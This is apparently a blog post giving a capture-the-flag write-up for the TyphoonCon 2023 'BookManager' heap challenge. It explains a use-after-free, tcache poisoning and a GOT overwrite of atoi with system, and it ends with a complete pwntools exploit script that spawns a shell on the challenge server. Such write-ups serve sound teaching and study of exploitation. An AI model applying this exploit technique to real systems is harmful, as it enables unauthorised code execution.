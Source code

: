 ```yaml
---
layout:     post
title:      BookManager [TyphoonConCTF 23]
date:       2023-06-30 04:30:00
summary:    WriteUp for challenge BookManager in TyphoonCon CTF
categories: 
- CTF
thumbnail: flag
tags:
- Pwning
---
```


This is a writeUp for challenge bookManager which was one of the three pwning challenges in typhoonCon CTF 2023. It is a fairly easy challenge given some knowledge of heap internals (tcache).

## Code analysis
The main function is a simple while loop containing a switch statement, having calls to other functions.
![main function](/images/2023-06-30-typhooncon-BookManager/main.png)

The important ones for us are the following

![new_book function](/images/2023-06-30-typhooncon-BookManager/new_book.png)
`new_book()` allocates a new slot (book) for us. It can allocate upto 5 books and it picks up the first empty slot and fills it with a malloc allocation of the size we specify.

![edit_book function](/images/2023-06-30-typhooncon-BookManager/edit_book.png)
`edit_book()` takes an index verifies that it is valid and not null and writes data to the allocation from `new_book()`. There seems to be no overflow here.

![show_book function](/images/2023-06-30-typhooncon-BookManager/show_book.png)
`show_book()` simply prints out an allocation at a given index if it is not null. This can be used for information disclosure.

![delete_book function](/images/2023-06-30-typhooncon-BookManager/delete_book.png)
`delete_book()` deletes the allocation using free but does not null out the pointer in `books` array resulting in a dangling pointer and this is where the bug lies.

## Background on tcache
tcache is a cache structure on top of the heap allocator bins and it contains recently freed allocations of sizes 24 to 1032 in bins of specified sizes. In ptmalloc2 allocations happen as chunks, i.e., tcache contains free chunks. the chunk structure is as follows
```
struct chunk{
size_t previous_size;
size_t size;
struct chunk* next;
struct chunk* prev;
// remaining data follows
};
```
the `previous_size` is size of the previous chunk in memory. `size` is size of the current chunk and `next` and `prev` are pointers to other chunks in a doubly linked list. However, in case of tcache only the `next` pointer is used and `prev` is unused as chunks in one bin are put in a singly linked list in a LIFO manner. 

Also note that, malloc returns the address of `next` pointer as start of the buffer not the start of the chunk, so, `next` pointer occupies the first few bytes of a free malloc buffer, but when allocated the same space has user data. Consider the following code.

```
a = malloc(0x10);
b = malloc(0x10);

free(a);
free(b);

c = malloc(0x10); // b is returned
d = malloc(0x10); // a is returned
```

the following image shows how deallocations happen. Note that now `b` will be allocated before `a`.
![tcache](/images/2023-06-30-typhooncon-BookManager/tcache.png)

The important thing to note here is that the free chunks are in a singly linked list. if any of the next pointers is corrupted allocations will happen from a corrupted linked list and malloc can be made to return manipulated addresses as allocations. This is exactly what we do in this challenge.

## Exploitation

### Main Idea

If we `delete_book()` an allocation and then `edit_book()` on it, we can modify the next pointer of the book so the second `new_book()` with the same size will return an allocation with the address we wrote using `edit_book()`.

This gives us arbitrary read primitive using `show_book()` and arbitrary write using `edit_book()`.

### atoi

Since it is partial RELRO and no PIE we can easily overwrite `.got` entry for `atoi`. `atoi` is called in every iteration of the main loop in `read_int` here is a decompilation for completeness.
![read_int](/images/2023-06-30-typhooncon-BookManager/read_int.png)

We first get an allocation with the address of `.got` entry for `atoi` using our `edit_book()` method. We read address of `atoi` and get libc base address from there and then write address of `system` in the `.got` entry.

So in the next loop we send `"/bin/sh"` in the next iteration of main loop giving us shell.

## Full Exploit

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./task")
libc = ELF("./libc-2.27.so")

context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
    else:
        r = remote("0.cloud.chals.io", 29394)

    return r

r = conn()

def malloc(sz) :
    r.recvuntil(b'>> ')
    r.send(b'1')
    r.recvuntil(b'size:\n')
    r.send(bytes(str(sz), 'ascii'))

def free(idx) :
    r.recvuntil(b'>> ')
    r.send(b'3')
    r.recvuntil(b'index:\n')
    r.send(bytes(str(idx), 'ascii'))

def show(idx) :
    r.recvuntil(b'>> ')
    r.send(b'4')
    r.recvuntil(b'index:\n')
    r.send(bytes(str(idx), 'ascii'))
    r.recvuntil(b'OUTPUT: ')
    return r.recvline()

def edit(idx, content) :
    r.recvuntil(b'>> ')
    r.send(b'2')
    r.recvuntil(b'index:\n')
    r.send(bytes(str(idx), 'ascii'))
    r.recvuntil(b'content:\n')
    r.send(content)

def main():

    malloc(0x10)
    free(0)
    edit(0, p64(exe.got['atoi']))
    malloc(0x10)
    malloc(0x10)
    libc.address = u64(show(2)[:6].ljust(8, b'\x00')) - libc.symbols['atoi']
    print(f"LIBC ADDRESS : {hex(libc.address)}")
    edit(2, p64(libc.symbols['system']))
    r.send(b'/bin/sh\x00')
    r.recvuntil(b'>> ')
    r.send(b'/bin/sh \x00')
    r.interactive()


if __name__ == "__main__":
    main()

```

